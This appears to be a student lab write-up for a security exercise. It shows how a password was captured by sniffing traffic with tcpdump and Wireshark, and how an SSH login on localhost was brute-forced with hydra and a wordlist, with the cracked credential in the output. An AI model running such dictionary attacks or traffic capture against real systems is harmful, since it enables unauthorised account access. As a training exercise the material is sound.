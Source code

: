 # Attack is the best defense
[x] 0-sniffing
No other traffic was in or out (filtering was need)
run tcpdump [install if not installed]
```console
foo@bar:~$ tcpdump -w dump

```

In a seperate shell run the alx executable [make executable if not already]
```console
foo@bar:~$ ./alx
```
open the dump in wireshark
found a line with pass in it and extract it and used a base64 decoder to get the password

[ ] Dictionary attack
```console
foo@bar:~$ hydra -l sylvain -P xato-110char ssh://127.0.0.1 -s 2222
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 236238 login tries (l:1/p:236238), ~14765 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-24 01:17:19
```
